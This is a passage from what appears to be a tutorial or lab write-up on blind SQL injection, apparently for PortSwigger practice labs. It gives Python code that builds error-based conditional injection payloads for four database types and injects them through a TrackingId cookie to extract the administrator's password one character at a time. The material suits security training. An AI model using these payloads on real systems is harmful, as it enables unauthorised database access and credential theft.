 ```python

  print(f"password length: {password_len}")
  password = []
  # iterate of each character of the password according to password length
  for pos in range(1,int(password_len)+1):
    password.append(binary_search(data, password_search_handler, pos))
    print('extracting password [%d%%]\r'%(int(pos / password_len * 100)), end="")

  print("\nPassword: {}".format("".join(password)), flush=True)
```

Full source code:

- [scripts/helper.py](scripts/helper.py)
- [scripts/blind_sqli_cond_resp.py](scripts/blind_sqli_cond_resp.py)

## Blind SQL injection with error conditional response

See [Error condition](#error-based) description for more details.

There are 2 changes to the [condition based](#blind-sql-injection-with-conditional-responses) approach that need to be discussed.

First, create the error conditional SQL statement that includes the original condition based SQL statement:

[scripts/helper.py](scripts/helper.py)

```python
def sqli_cond_error(sql_main_conditional, db_type):
  # sql error condition: https://portswigger.net/web-security/sql-injection/cheat-sheet
  sql = None
  if db_type == 'Oracle':
    sql = f"' AND (SELECT CASE WHEN ({sql_main_conditional}) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a"
  elif db_type == 'Microsoft':
    sql = f"' AND (SELECT CASE WHEN ({sql_main_conditional}) THEN 1/0 ELSE NULL END)='a"
  elif db_type == 'PostgreSQL':
    sql = f"' AND (SELECT CASE WHEN ({sql_main_conditional}) THEN 1/(SELECT 0) ELSE NULL END)='a"
  elif db_type == 'MySQL':
    sql = f"SELECT IF({sql_main_conditional},(SELECT table_name FROM information_schema.tables),'a')"

  return sql
```

Second, create 2 new handlers that utilise error conditions (injection code and error based conditional statement):

```python
def password_size_handler(val, op, pos):
  sql_passwd_inj = "LENGTH((SELECT password FROM users WHERE username = 'administrator')) {} '{}'".format(op, val)
  sql = helper.sqli_cond_error(sql_passwd_inj, 'Oracle')
  req.inject('cookie', 'TrackingId', sql)

  resp = req.get()
  if not resp.status_code in [200, 500]:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  return resp.status_code == 500

def password_search_handler(val, op, pos):
  sql_passwd_inj = "SUBSTR((SELECT password FROM users WHERE username = 'administrator'), {}, 1) {} '{}'".format(pos, op, val)
  sql = helper.sqli_cond_error(sql_passwd_inj, 'Oracle')
```